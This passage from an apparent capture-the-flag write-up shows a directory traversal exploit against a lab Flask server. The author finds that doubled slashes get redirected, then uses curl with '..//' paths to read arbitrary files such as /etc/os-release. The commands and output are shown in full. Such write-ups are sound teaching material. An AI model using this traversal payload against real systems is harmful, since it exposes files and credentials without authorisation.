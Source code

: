     [program:flask]
    command=python /app/run.py
    stdout_logfile=/dev/stdout
    stdout_logfile_maxbytes=0
    stderr_logfile=/dev/stderr
    stderr_logfile_maxbytes=0
    

This shows that it’s running `/app/run.py`, which shows the absolute path to
the application in the container.

#### Directory Traversal

Knowing this, I might think I can do something like `curl --path-as-is
http://10.10.11.164/uploads//app/run.py`, but it doesn’t work:

    
    
    oxdf@hacky$ curl --path-as-is http://10.10.11.164/uploads//app/run.py
    <!doctype html>
    <html lang=en>
    <title>Redirecting...</title>
    <h1>Redirecting...</h1>
    <p>You should be redirected automatically to the target URL: <a href="http://10.10.11.164/uploads/app/run.py">http://10.10.11.164/uploads/app/run.py</a>. If not, click the link.
    

Before the request gets to Flask to process, a redirect to a “normalized” URL
is being sent, which breaks my exploit. This isn’t specific to the exploit
attempt. For example, just reading the legit uploaded file with an extra `/`
does that same thing:

    
    
    oxdf@hacky$ curl --path-as-is http://10.10.11.164/uploads//htb.png
    <!doctype html>
    <html lang=en>
    <title>Redirecting...</title>
    <h1>Redirecting...</h1>
    <p>You should be redirected automatically to the target URL: <a href="http://10.10.11.164/uploads/htb.png">http://10.10.11.164/uploads/htb.png</a>. If not, click the link.
    

I noted above that URLs with `../` did make it to Flask, where they were
cleaned out. I can’t quite explain why `//` isn’t allowed through, but `..//`
is, but it is. I’ll combine these two to get a working file read anywhere on
the system:

    
    
    oxdf@hacky$ curl --path-as-is http://10.10.11.164/uploads/..//etc/os-release
    NAME="Alpine Linux"
    ID=alpine
    VERSION_ID=3.15.1
    PRETTY_NAME="Alpine Linux v3.15"
    HOME_URL="https://alpinelinux.org/"
    BUG_REPORT_URL="https://bugs.alpinelinux.org/"
    

